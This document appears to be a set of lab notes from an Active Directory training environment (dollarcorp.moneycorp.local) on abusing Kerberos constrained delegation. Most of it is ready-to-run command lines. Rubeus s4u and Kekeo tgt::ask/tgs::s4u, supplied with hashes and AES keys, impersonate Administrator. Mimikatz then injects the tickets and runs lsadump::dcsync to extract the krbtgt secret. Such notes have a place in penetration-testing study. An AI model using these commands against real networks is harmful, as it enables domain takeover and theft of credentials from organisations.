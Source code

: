 ## To abuse Constrained delegation using Rubeus, we can use the following command (We are requesting a TGT and TGS in a single command):
`Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt`
`ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$`

## (SUPER IMPORTANT !!) In Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified. For example this account samaccountname: (DCORP-ADMINSRV$) can acces this service msds-allowedtodelegateto : (TIME/dcorp-cd.etc) as any user and it can also access all the services that run with the same service account as the TIME service. So all interesting services uses the machine account as the service account (for example TIME SERVICE,winrm, http,rpcss and etc). So that means what we cannot only access the TIME service on the domain controller as an  domain administrator but we can also access the other services.

## Either plaintext password or NTLM hash is required. If we have access to dcorp-adminsrv hash  Using asktgt from Kekeo, we request a TGT:
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
## Using s4u from Kekeo_one (no SNAME validation):
`tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneyc orp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL`

## Using mimikatz:
`Invoke-Mimikatz -Command '"kerberos::ptt GS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'`
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

## To abuse constrained delegation for dcorp-adminsrv$ using Rubeus, we can use the following command (We are requesting a TGT and TGS in a single command)(We asked LDAP service so as to perform dc-sync later :):
`Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt`
## After injection, we can run DCSync:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`
